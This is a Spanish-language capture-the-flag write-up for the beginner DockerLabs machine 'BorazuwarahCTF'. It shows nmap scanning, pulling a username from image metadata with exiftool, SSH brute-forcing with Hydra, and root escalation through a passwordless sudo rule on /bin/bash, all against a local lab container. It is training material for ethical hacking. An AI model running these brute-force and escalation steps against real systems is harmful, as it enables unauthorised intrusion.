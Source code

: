 # 🖥️ **Máquina: BorazuwarahCTF**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  *BorazuwarahCTF* es una máquina de práctica alojada en DockerLabs, diseñada para quienes se están iniciando en el pentesting. Permite practicar técnicas esenciales como fuerza bruta con Hydra, análisis de metadatos en imágenes y escalada de privilegios mediante `sudo`.

- **🎯 Objetivos:**  
  - Identificar credenciales mediante ataques de fuerza bruta.  
  - Extraer información sensible desde archivos públicos.  
  - Escalar privilegios en el sistema.

![Logo de BorazuwarahCTF](/BorazuwarahCTF/Imagenes/Logo.png)

---

## 🚀 **Despliegue de la Máquina en DockerLabs**

### 1️⃣ Despliegue automático  
Utiliza el siguiente comando para levantar la máquina:

```bash
sudo bash auto_deploy.sh borazwarabctf.tar
```

📌 *Nota: Asegúrate de tener Docker correctamente instalado y configurado.*

![Máquina Iniciada](/BorazuwarahCTF/Imagenes/Activar.jpeg)

Verifica la conectividad con un simple ping:

```bash
ping -c4 172.17.0.2
```

![Ping](/BorazuwarahCTF/Imagenes/Ping.jpeg)

---

## 🔍 **Fase de Reconocimiento**

### 🔎 Escaneo de Puertos  
Se realizó un escaneo rápido con `nmap` para identificar servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports.txt
```

**Puertos abiertos detectados:**  
- `22/tcp` (SSH)  
- `80/tcp` (HTTP)

![Resultado del Escaneo](/BorazuwarahCTF/Imagenes/Escaneo.jpeg)

### 🔧 Detección de Servicios  
Se utilizó un escaneo de servicios detallado:

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target.txt
```

**Resultados:**  
- **SSH:** OpenSSH 9.2p1  
- **HTTP:** Apache 2.4.59

![Servicios Detectados](/BorazuwarahCTF/Imagenes/Servicios.jpeg)

---

## 🌐 **Análisis del Sitio Web**

Se accedió al servidor web en el puerto 80, pero no se encontró contenido útil a primera vista. Se usaron herramientas como `gobuster`, `wfuzz` y `whatweb` sin revelar rutas o tecnologías adicionales destacables.  
Se observó una imagen disponible en el sitio, la cual fue analizada más adelante.

![Página Web](/BorazuwarahCTF/Imagenes/Pagina.jpeg)

---

## 🖼️ **Análisis de Imagen y Metadatos**

Se descargó la imagen del sitio web:

```bash
wget http://172.17.0.2/imagen.jpeg
```

Posteriormente, se examinó con `exiftool` para extraer metadatos:

```bash
exiftool imagen.jpeg
```

En los metadatos se encontró un **nombre de usuario**, lo cual sugiere un posible objetivo para fuerza bruta por SSH.

![Metadatos](/BorazuwarahCTF/Imagenes/Metadatos.jpeg)

---

## 🔓 **Explotación**

### 🚀 Ataque de Fuerza Bruta (SSH)

Se usó Hydra para encontrar la contraseña del usuario descubierto:

```bash
hydra -l borazunarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 20
```

**Credenciales válidas encontradas:**  
- **Usuario:** `borazunarah`  
- **Contraseña:** `123456`

![Hydra](/BorazuwarahCTF/Imagenes/Hydra.jpeg)

### 🧑‍💻 Conexión SSH

Con las credenciales obtenidas, se accedió al sistema:

```bash
ssh borazunarah@172.17.0.2
```

---

## 🛡️ **Escalada de Privilegios**

Una vez dentro, se verificaron los permisos con `sudo -l`:

```bash
sudo -l
```

**Resultado:**  
El usuario tiene permiso para ejecutar `/bin/bash` como root **sin contraseña**:

```
(ALL) NOPASSWD: /bin/bash
```

Por lo tanto, se escaló a root con:

```bash
sudo /bin/bash
```

![Escalada de Privilegios](/BorazuwarahCTF/Imagenes/SSH.jpeg)

---

## ✅ **Conclusiones**

*BorazuwarahCTF* es una máquina ideal para principiantes, que refuerza conceptos esenciales del hacking ético:

- 📌 **Reconocimiento**: identificación temprana de puertos y servicios.
- 🖼️ **Metadatos**: uso de `exiftool` para extraer información útil de archivos.
- 🔐 **Fuerza bruta**: aplicación efectiva de `hydra` para crackear credenciales.
- 🧑‍💻 **Escalada de privilegios**: explotación de configuraciones sudo mal implementadas.

🎯 **Lección clave**: incluso en entornos simples, una cadena de fallos básicos puede llevar rápidamente a una toma de control completa del sistema.
